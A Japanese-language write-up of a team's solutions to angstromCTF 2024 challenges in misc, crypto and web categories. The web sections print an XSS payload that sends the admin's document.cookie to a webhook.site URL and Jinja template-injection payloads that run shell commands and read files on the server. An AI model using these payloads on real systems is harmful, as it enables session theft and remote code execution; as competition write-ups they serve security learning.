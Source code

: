 # angstromCTF 2024に参加しました

数ヶ月ぶりにちゃんとCTFをやろうと思っていたところちょうど評判のよい(?)CTFがあったので参加しました.  
楽しいCTFを開催してくれた運営人の皆様, ありがとうございました.  
Web問題に関してはたまたま一緒に作業していたwebフロントを書く後輩に投げて, ほとんど解いてもらいました. ありがとう.  
510pt, 226/831（母数は正の得点を獲得しているチーム数）.

## trip(Misc 485solves)

### Description
> What road was this this [photo](https://files.actf.co/fdea3784a76afd8110498bd596653c433e3f5206bc0fa87f28a5edbd0a622ceb/trip.jpeg) taken on?  
> For example, if the road was "Colesville Road" the flag would be actf{colesville}.

### Consideration
綺麗な風景写真が渡されるので, 写真を撮った場所を答える.  
google lensじゃ絶対引っかからないような写真なので, 画像検索は望み薄.  
次にangstromチームのSNSを覗きに行ったけど該当するものなし.  
そういえばと思って, exiftoolにかけてみたらGPS Positionという欄があって, 緯度と経度があったので無事に場所の特定ができた.
```bash:exiftool trip.jpeg
GPS Position                    : 37 deg 56' 23.60" N, 75 deg 26' 17.11" W
```
あとはgoogle mapで検索して出てきた道の名前を答える.

## aw man(Misc 290solves)

### Description
> [Man](https://files.actf.co/5b9ef628dbf56fedc1ad1861b0ccb96569cd6a97fe49d50cb8f099155adf66b3/mann.jpg)? Is that you?

### Consideration
exiftoolで何も出なかったので, [aperi solve](https://www.aperisolve.com/)に投げてみた.  
enc.txtていうテキストファイルが抽出できたので中身を見てみる.
```txt:enc.txt
5RRjnsi3Hb3yT3jWgFRcPWUg5gYXe81WPeX3vmX
```
ここから地獄で何でdecode（decrypt）すれば良いか検討がつかず時間を溶かす.  
結果的にbaseをロールしていって, base58でdecodeできた.

## do you wanna a build snowman(Misc 317solves)

### Description
> Anna: Do you wanna build a snowman? Elsa: Sure if you can open my snowman [picture](https://files.actf.co/67ad046a16c81593ac82fdc7975dd8713a9c364774b69e2a8a3632e639c7fc66/snowman.jpg)

### Consideration
jpeg形式の画像ファイルが渡されるけど, 開けない.  
headerとかが正しくないんだろうなという推測でbinaryをいじってみることに.  
ファイルの最初にあるべきスタートマーカと呼ばれるSOIがあるらしく, そこが正しくなかったので修正したら開けた. （`fdd8`->`ffd8`）

## PHIlosophy(Crypto 339solves)

### Description
> Clam decided to start studying philosophy, and what is the difference between plus one and minus one anyway...

### Consideration
ほとんどがRSA暗号と同じになっているが, phiの値だけ$ phi = (p-1)(q-1) $でなく$ phi = (p+1)(q+1) $となっている. これでは秘密鍵が正しく生成されずに復号が正しく行われない.  
ここで,  
$
phi = (p+1)(q+1)
    = pq + p + q + 1
    = n + p + q + 1
$  
phiとnは既知なのでp+qが求まる.  
正しいphi'は  
$
phi' = (p-1)(q-1)
    = pq - (p+q) +1
$  
で求まるので正しく秘密鍵が生成できて, 復号が完了する.

## layers(Crypto 240solves)

### Description
> nc challs.actf.co 31398

### Consideration
やっていることとしては  
$ enc = flag \oplus key_1 \oplus key_2 \oplus ... \oplus key_{1000} $  
で, 1000個の鍵は毎回同じ鍵になる.  
よって  
$
flag = enc \oplus key_1 \oplus key_2 \oplus ... \oplus key_{1000}\\
\ \ \ \ \ \ \ \ \ = flag \oplus key_1 \oplus key_1 \oplus key_2 \oplus key_2 \oplus ... \oplus key_{1000} \oplus key_{1000}\\
\ \ \ \ \ \ \ \ \ = flag
$  
encは16進数になるので2番で投げて, 返ってくるflagも16進数なので`bytes.fromhex(flag)`とかで直す.

## markdown(Web 282solves)

### Description
> My friend made an app for sharing their notes!  
> App: [https://markdown.web.actf.co/](https://markdown.web.actf.co/)  
> Send them a link: [https://admin-bot.actf.co/markdown](https://admin-bot.actf.co/markdown)  
> [index.js](https://files.actf.co/c9c1df7ad9c6c62b99454fbde63f1cce5bd69c1dadd87314de9053f4e601c16b/index.js)

### Consideration
リンクを共有する方のアプリケーションは送ったリンクを見に行くらしい ＆ markdownを生成する方のアプリケーションは サニタイズしない  
というとこまで後輩が進めてくれたのでそこからスタート.  
①tokenをリークさせて, ②レスポンスを自分が見れるサーバーに送るということをしないといけない.  
②に関しては前に[webhook](https://webhook.site/)というものを使っていた人がいたのを思い出してクリア.  
①は後輩がプロですぐに以下を考えてくれた.  
```
<img src="x" onerror="fetch('https://webhook.site/595b3f51-eaea-4381-988d-da5cb183770a', {method:'POST', body:document.cookie})" />
```
ほとんど後輩が解いてくれた. 感謝.

## winds(Web 259solves)

### Description
> Challenge: [https://winds.web.actf.co/](https://winds.web.actf.co/)

### Consideration
SSTIができるというところまで後輩が進めてくれたのでそこからスタート.  
config見ても, 環境変数見てもflagないし, flagに繋がる情報は見つからず.  
以下で, lsコマンドを実行する.  
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read() }}
```
flag.txtがあったので以下で中身を見る.  
```
{{ request.form.get.__globals__['__builtins__']['open']('./flag.txt').read() }}
```  
リクエストで送るtextは並べ替えられてしまうけど, seed値が0なのでローカルで上のリクエストになるような文字列を生成できる.  
